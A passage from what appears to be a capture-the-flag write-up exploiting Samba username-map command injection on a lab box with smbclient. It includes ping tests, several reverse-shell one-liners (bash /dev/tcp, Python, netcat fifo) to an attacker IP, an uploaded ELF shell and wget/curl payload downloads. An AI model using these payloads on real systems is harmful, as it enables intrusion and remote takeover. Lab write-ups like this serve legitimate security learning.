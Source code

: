 That looks simple enough to do through the command line without using metasploit.

```sh
# first, set up listener to catch pings sent our way
❯ sudo tcpdump -vvv -nn -i tun0 icmp

# then in another window, send payload that pings my attack box
❯ smbclient -L //10.10.10.3 -N -U '/=`ping -c3 10.10.14.2`'
```

And pings work! We have code execution! Now to try to get a reverse shell.

```sh
# start listener
❯ sudo nc -lvnp 443

# throw reverse shell command
❯ smbclient -L //10.10.10.3 -N -U $'/=`/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.2/443 0>&1\'`'
# but no callback?

# try python reverse shell
❯ smbclient -L //10.10.10.3 -N -U $'/=`python -c "import os,sys,socket,pty;os.fork() and sys.exit();os.setsid();os.fork() and sys.exit();s=socket.socket();s.connect((\"10.10.14.2\",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")"`'
# still no callback?

# try netcat reverse shell
❯ smbclient -L //10.10.10.3 -N -U '/=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 443 >/tmp/f`'
# still nothing?

# upload reverse shell with smbclient
❯ smbclient //10.10.10.3/tmp -N
smb: \> put pwn/rsh.elf rsh.elf

# try executing reverse shell
❯ smbclient -L //10.10.10.3 -N -U '/=$(chmod +x /tmp/rsh.elf; nohup /tmp/rsh.elf)'
# still nothing?
```

No callback for reverse shells... hmmm. Maybe I can download a reverse shell payload and execute?

```sh
# start web server
❯ sudo python3 -m http.server 80

# try download with wget
❯ smbclient -L //10.10.10.3 -N -U $'/=`wget 10.10.14.2/rsh.elf`'
# no request received?

# same thing with curl
❯ smbclient -L //10.10.10.3 -N -U $'/=`curl 10.10.14.2/rsh.elf -O rsh`'
# still nothing?

# trying more basic wget
❯ smbclient -L //10.10.10.3 -N -U $'/=`wget 10.10.14.2`'
# receive GET call!
```
